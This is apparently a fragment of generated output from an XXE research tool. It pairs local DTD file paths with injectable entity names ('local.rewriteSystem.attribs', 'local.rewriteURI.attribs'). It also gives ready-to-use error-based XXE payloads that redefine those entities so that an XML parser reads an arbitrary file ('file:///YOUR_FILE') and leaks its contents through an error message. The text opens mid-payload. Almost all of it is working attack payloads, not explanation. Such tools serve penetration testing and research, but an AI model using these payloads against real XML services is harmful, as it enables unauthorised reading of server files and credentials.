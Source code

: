```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `local.rewriteSystem.attribs`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % local.rewriteSystem.attribs '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `local.rewriteURI.attribs`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % local.rewriteURI.attribs '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```
